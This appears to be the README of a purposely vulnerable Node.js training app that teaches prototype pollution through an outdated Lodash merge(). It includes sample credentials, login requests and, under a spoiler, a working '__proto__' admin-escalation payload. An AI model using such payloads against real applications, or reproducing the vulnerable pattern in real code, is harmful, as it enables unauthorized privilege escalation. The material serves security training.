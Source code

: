 # Pollute API - A Prototype Pollution Example

Pollute API is a purposely vulnerable Node.js application for understanding prototype pollution vulnerabilities. Its meant to be a CTF or training exercise for hackers. I wrote this to further my understanding about Prototype Pollution vulnerabilities at the time.

This code is based on examples from other Prototype Pollution vulnerabilities.

This app uses an outdated version of Lodash, which contains a prototype pollution vulnerability when
using the `merge()` function. 

The initial report is here: https://hackerone.com/reports/380873

### Using Pollute API

Pollute API has two main endpoints. The objective is to gain admin access. Three users exist:

* dolores / pollute
* hector / pollute
* bernard / <unknown password> (has admin privs)

You need to exploit a prototype pollution vulnerability to gain admin privileges. 

### Endpoints
Using curl:
```
$ curl localhost:8000/api/login -H "Content-Type: application/json" -d '{"username" : "dolores", "password": "pollute", "redirect_url": "/api/get_detailed_stats"}' -X POST

{"message":"Logged in as: dolores, from ::ffff:127.0.0.1"}
```

Or the raw request (using Burp Suite or similar):
```
POST /api/login HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 70

{
    "username": "dolores", 
    "password": "pollute",
    "redirect_url":"/api"
}
```

Expected response:
```
HTTP/1.1 200 OK
...

{"message":"Logged in as: dolores, from ::ffff:127.0.0.1"}
```

### Exploit

Note that if you successfully exploit this vulnerability, it will be persistent until the server has restarted, since you're polluting the object.

<details>
    <summary>Spoiler warning</summary>

    POST /api/login HTTP/1.1
    Host: localhost
    Content-Type: application/json
    Content-Length: 93

    {
        "username": "dolores", 
        "password": "pollute",
        "redirect_url": {"__proto__":{"admin":true}}
    }

Expected response:

    HTTP/1.1 200 OK
    ...

    {"message":"Logged in as: dolores, with admin privileges, from ::ffff:127.0.0.1"}

</details>

### Running in Docker
* Using Docker Compose: `docker-compose up`

Test connection:
```
$ curl localhost:8181/api/

{"message":"login at /api/login"}
```

### Deploying to ECS
I've also included Terraform code to deploy an instance to AWS ECS, in the `terraform` directory.


## What is Prototype Pollution
Prototype pollution vulnerabilities occur when its possible to control an object's prototype property.

The prototype property can be accessed and modified as shown below (where `person` is an example object):
```
function person(name, age) { ... }

...

person.prototype //prints the prototype property 
person1.constructor.prototype //points to person.prototype
person1.__proto__ //__proto__ points to person.prototype
```

### Prototype Pollution
This is a basic example of what Prototype Pollution is, and how it works.

Consider the following js code:
```
function person(fullName, age) {
    this.age = age;
    this.fullName = fullName;
}

var person1 = new person("Satoshi", 70);
var person2 = new person("Buterin", 26);

// here we add a new 'details' functions to the person1 object by modifying the prototype
person1.constructor.prototype.details = function() {
    return this.fullName + " has age: " + this.age;
}

// then we call this new function, and it works as expected
console.log(person1.details()); // prints "Satoshi has age: 70"

// and then we call this on person2, which never had the new object
console.log(person2.details()); // prints "Buterin has age: 26"

// however, it still works. Why? Because constructor.prototype is referring to the prototype of 'person'
```

### Further Reading
* https://itnext.io/prototype-pollution-attack-on-nodejs-applications-94a8582373e7
* https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/